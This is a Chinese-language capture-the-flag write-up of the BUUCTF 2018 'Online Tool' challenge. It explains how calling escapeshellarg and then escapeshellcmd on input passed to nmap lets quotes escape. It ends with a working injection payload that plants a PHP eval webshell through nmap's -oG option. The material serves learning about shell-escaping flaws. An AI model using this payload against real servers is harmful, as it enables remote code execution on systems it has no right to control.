


# BUUCTF 2018

## Online Tool

> *2021/07/16*

### 题目

直接给了源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

题是代码执行，考察的是[`escapeshellarg`和`escapeshellcmd`](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)联合使用的问题

> `escapeshellarg` — 把字符串转码为可以在 shell 命令里使用的参数
>
> **功能** **：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)**

> `escapeshellcmd` — shell 元字符转义
>
> **功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [`exec()`](http://php.net/manual/zh/function.exec.php) 或 [`system()`](http://php.net/manual/zh/function.system.php) 函数，或者 [`执行操作符`](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。**
>
> 反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF\*。 \*’* 和 *“* 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替

本身是安全的的，但是合在一起使用就不安全，以这道题为例，很明显是一个**命令执行**的题，`nmap`可以通过`-oG`参数写入`webshell`，但是由于`escapeshellarg`和`escapeshellcmd`的转义，会导致常规的注入失败，举个例子，如果我们正常注入`<?php eval($_POST['bme']);?> -oG 1.php`，经过这两个函数会变成这样

- `'<?php eval($_POST['\''bme'\'']);?> -oG 1.php'`

这一个首先是将两个`'`进行转义，但是转义之后，前后无法生成字符串，这时候就需要将他们用`'`括起来

- `'\<\?php eval\(\$_POST\['\\''bme'\\''\]\)\;\?\> -oG 1.php'`

而第二个则是将特殊字符进行转义，同时对未配对的单引号进行转义，看起来很乱，但是在`shell`里跑一下就知道了



我们发现有一部分由于第二个函数，导致了部分逃逸`\\`，`bme`参数也消失了，而我们就是要利用`'`在第一遍被转义，第二遍逃逸这种特性，来进行绕过，我们试一试`'<?php eval($_POST['bme']);?> -oG 1.php'`

- `''\''<?php eval($_POST["bme"]);?>  -oG 1.php'\'''`
- `''\\'' \<\?php eval\(\$_POST\["bme"\]\)\;\?\> -oG 1.php '\\'''`

在`shell`中的执行效果是这样的



我们发现，在`shell`中，许多`''`实现了逃逸，由于`\\`反斜线把自己转移了导致了`'`的逃逸

### payload

```
?host=' <?php eval($_POST["bme"]);?> -oG 1.php '
```
